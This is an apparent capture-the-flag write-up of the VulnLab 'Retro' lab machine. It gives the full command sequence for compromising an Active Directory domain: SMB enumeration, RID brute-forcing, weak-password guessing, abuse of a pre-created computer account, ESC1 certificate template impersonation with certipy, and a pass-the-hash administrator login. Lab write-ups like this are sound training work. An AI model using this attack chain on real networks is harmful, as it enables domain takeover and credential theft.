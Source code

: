 ```yaml
---
title: VulnLab -- Retro Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,ESC1,ADCS,pre2k]
image:
    path: images/retro-banner.png
---
```

# Retro

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Retro** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/retro-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 593,3389,139,3268,636,49670,49669,389,445,135,49673,464,49664,49668,9389,53,49716 --min-rate=1000 10.10.95.73
```

![image.png](../images/retro.png)

now let’s try to enumerate the shares

```bash
nxc smb retro.vl -u 'guest' -p '' --shares --users
```

![image.png](../images/retro%201.png)

we found a share named Trainees so let’s connect to it 

```bash
smbclient \\\\retro.vl\\Trainees -U "retro.vl\guest"
```

![image.png](../images/retro%202.png)

As we see there is a file named Important so let’s download it and see it’s content

```bash
 get Important.txt
```

![image.png](../images/retro%203.png)

> Notice that we found a note saying that the students can’t remember strong passwords which mean that there password is weak
> 

Now let’s get the usernames

```bash
nxc smb retro.vl -u 'guest' -p '' --rid-brute 10000
```

![image.png](../images/retro%204.png)

Now let’s save the whole result in a file and extract the names

```bash
cat result.txt | grep -i SidTypeUser | awk '{print $6}' | cut -d "\\" -f 2 > users.txt
```

![image.png](../images/retro%205.png)

and we got the users names

Now let’s test the user trainee with the password is the username and see if we can login

```bash
nxc smb retro.vl -u trainee -p trainee
```

![image.png](../images/retro%206.png)

> And we are authenticated!
> 

Now let’s enumerate the shares with the new user

```bash
nxc smb retro.vl -u trainee -p trainee --shares
```

![image.png](../images/retro%207.png)

Notice that we got access to the notes share so let’s go and connect to it

```bash
smbclient \\\\retro.vl\\Notes -U "retro.vl\trainee"
```

![image.png](../images/retro%208.png)

and we got access to a ToDo file so let’s download it and see it’s content

```bash
get ToDo.txt
```

![image.png](../images/retro%209.png)

> Notice that the note is referring that the environment have a pre created computer account so let’s try to abuse it
> 

Now let’s search for the pre created computer accounts and it’s passwords

```bash
poetry run pre2k auth -u trainee -p trainee -d retro.vl -dc-ip 10.10.95.73
```

![image.png](../images/retro%2010.png)

> Amazing we found that there is a computer named BANKING$ with password banking
username: BANKING$
password: banking
> 

now let’s get bloodhound 

```bash
bloodhound-python -ns 10.10.95.73 -d retro.vl -u trainee -p trainee -c all --zip
```

![image.png](../images/retro%2011.png)

Now open the bloodhound and let’s search for any interesting information 

![image.png](../images/retro%2012.png)

and we didn’t find anything interesting

let’s search for the certificate templates in the enviroment

```bash
 certipy-ad find -u trainee@retro.vl -p trainee -dc-ip 10.10.95.73
```

![image.png](../images/retro%2013.png)

Now let’s search for any ESC to abuse

```bash
cat 20250328163600_Certipy.txt | grep -i ESC -b40
```

![image.png](../images/retro%2014.png)

notice that we found a ESC1 vulnerability in a template named RetroClients and we can abuse it using the Banking$ computer we have

 Now let’s change the password of the banking computer

```bash
impacket-changepasswd retro.vl/BANKING$:banking@10.10.95.73 -altuser trainee -altpas trainee
```

![image.png](../images/retro%2015.png)

now let’s abuse the Vulnerable template

```bash
certipy-ad req -ca 'retro-DC-CA' -dc-ip '10.10.95.73' -u 'BANKING$' -p 'remo123$' -template 'RetroClients' -target 'dc.retro.vl' -upn 'administrator@retro.vl' -key-size 4096
```

![image.png](../images/retro%2016.png)

now let’s retrive the administrator hash

```bash
certipy-ad auth -pfx administrator.pfx
```

![image.png](../images/retro%2017.png)

So as we have the administrator hash let’s go and login using it.

```bash
evil-winrm -i retro.vl -u administrator -H 252fac7066d93dd009d4fd2cd0368389
```

![image.png](../images/retro%2018.png)

and we did it we logged in as administrator 🥳 

No let’s go and get the root flag

```bash
cd C:\Users\Administrator\desktop
```

![image.png](../images/retro%2019.png)

Amazing we solved the machine 😍

![image.png](../images/retro%2020.png)

That’s it for the **Retro** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX
